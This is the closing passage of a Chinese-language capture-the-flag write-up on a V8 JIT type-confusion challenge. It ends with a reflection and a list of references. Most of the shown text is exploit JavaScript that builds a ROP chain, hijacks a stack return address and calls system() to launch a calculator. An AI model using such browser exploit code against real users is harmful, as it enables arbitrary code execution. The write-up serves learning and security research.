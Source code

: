 ```
   dv.setFloat64(0x2000,p64(pop_rdi,elf_base_h),true);
   dv.setFloat64(0x2008,p64(buf_data_addr_l+0x2018,buf_data_addr_h),true);
   dv.setFloat64(0x2010,p64(system_l,libc_base_h),true)
   var cmd = "gnome-calculator\x00";
   var bufView = new Uint8Array(buf);
   for (var i = 0, strlen = cmd.length; i &lt; strlen; i++) `{`
      bufView[0x2018+i] = cmd.charCodeAt(i);
   `}`

   //修改0x20处为buf_data_addr
   faker[8] = p64(0x20,compression_ptr_high);
   fdv.setFloat64(0,p64(buf_data_addr_l,buf_data_addr_h),true);

   //劫持栈返回地址为mov_rdi，将栈最终迁移到buf_data_addr里做ROP
   var rop_addr_l = stack_addr_l - 0x1b18;
   faker[8] = p64(rop_addr_l,stack_addr_h);
   fdv.setFloat64(0,p64(mov_rdi,elf_base_h),true);
`}`
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```



## 0x03 感想

通过这一题，学习了v8方面的很多知识，对JIT也有了一定的了解



## 0x04 参考

[强网杯2020线下GooExec](https://bbs.pediy.com/thread-262205.htm)<br>[你可能不知道的v8数组优化](https://segmentfault.com/a/1190000023193375)<br>[深入理解Js数组](https://blog.csdn.net/qq_40413670/article/details/106738425)<br>[(v8 source)elements-kind.h](https://source.chromium.org/chromium/v8/v8.git/+/ec37390b2ba2b4051f46f153a8cc179ed4656f5d:src/elements-kind.h;l=14)<br>[Google Chrome V8 JIT – ‘LoadElimination::ReduceTransitionElementsKind’ Type Confusion](https://www.anquanke.com/vul/id/1069139)
